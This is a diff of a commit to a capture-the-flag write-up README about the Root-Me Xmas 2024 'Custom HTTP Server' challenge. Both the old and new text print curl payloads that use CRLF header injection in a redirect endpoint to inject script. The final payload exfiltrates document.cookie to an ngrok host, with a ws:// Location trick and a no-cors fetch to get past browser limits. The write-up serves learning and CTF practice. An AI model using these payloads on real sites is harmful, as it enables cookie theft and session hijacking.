

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/CutsomHttpServer/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

`````diff
--- a/Xmas_RootMe_2024/CutsomHttpServer/README.md
+++ b/Xmas_RootMe_2024/CutsomHttpServer/README.md
@@ -55,7 +55,12 @@ router.get('/api/redirect', (req, res) => {
 ````bash
 curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
 ````
-Actually, tje \r\n chars triggered a 302 page meaning ça the page had benn found
+Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload applied to the target domain:
+
+<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>
+
+<p align="justify"> Nonetheless when testing the payload on firefox, it only triggered a redirect loop leading abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters for fetching my external server to get around CORS restrictions: </p>
+
 ````javascript
 fetch('http://7.tcp.eu.ngrok.io:18440/',
         {
@@ -66,10 +71,13 @@ fetch('http://7.tcp.eu.ngrok.io:18440/',
 )
 ````
 
+Finally I came up with the final paylaod below :
+
 ````bash
 curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
 ````
+After opening a listening port, I finally received the flag :
 
 <p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>
 
-Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge !
+Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !
`````
